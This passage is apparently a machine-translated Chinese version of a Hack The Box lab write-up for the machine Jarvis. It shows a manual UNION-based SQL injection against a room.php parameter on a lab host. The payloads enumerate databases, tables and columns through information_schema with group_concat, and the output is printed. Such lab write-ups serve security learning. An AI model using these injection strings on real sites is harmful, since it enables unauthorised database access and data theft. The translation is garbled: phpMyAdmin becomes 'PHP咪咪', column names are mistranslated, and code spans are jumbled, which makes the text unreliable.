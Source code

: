     [*] ending @ 02:02:45 /2019-06-28/
    

不仅如此，该网站现在还返回了我之前在端口64999上看到的关于被阻止90秒的相同消息。

### 路径 1：PHP咪咪

#### 手动

我可以手动完成此注射。我将从检查联合注入开始。我将设置（不返回任何内容的内容），然后添加联合。我将从 开始。当它不返回任何内容时，我将更改为 .然后。当我到达 时，页面的某些部分会再次填充：`cod=100``http://10.10.10.143/room.php?cod=100 UNION SELECT 1;-- -``SELECT``SELECT 1,2``1,2,3``http://10.10.10.143/room.php?cod=100 UNION SELECT 1,2,3,4,5,6,7;-- -`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1561702665655.) 

我可以将其与合法进行比较：`cod=1`

 ![](https://image.cubox.pro/article/2022091809192210611/50850.jpg) 

我可以看到第5列是图片，第2列似乎是房间标题，3必须是价格，4必须是描述文本。

我将使用第 2 列从数据库中获取信息。在解决Jarvis时，我最近了解到，它将把来自不同行的所有值放入一个字符串中，这真是太棒了。我将首先列出数据库。酒店似乎是最有趣的，但它只有一张桌子，根据列，这似乎并不有趣。接下来，我将看一下 mysql 表：`group_concat()`

目标

注射

结果

列出数据库

`SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -`

酒店，information\_schema，performance\_schema

在酒店展示桌子

`SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- -`

房间

显示房间内的列

`SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room';-- -`

鳕鱼，名称，价格，描述，星星，图像，迷你

在 mysql 中显示表

`SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -`

column\_stats，columns\_priv，db，事件，功能，general\_log，gtid\_slave\_pos，help\_category，help\_keyword，help\_relation，help\_topic，主机，index\_stats，innodb\_index\_stats，innodb\_table\_stats，插件，程序，procs\_priv，proxies\_priv，roles\_mapping，服务器，slow\_log，table\_stats，tables\_priv，time\_zone，time\_zone\_leap\_second，time\_zone\_name，time\_zone\_transition，time\_zone\_transition\_type，用户
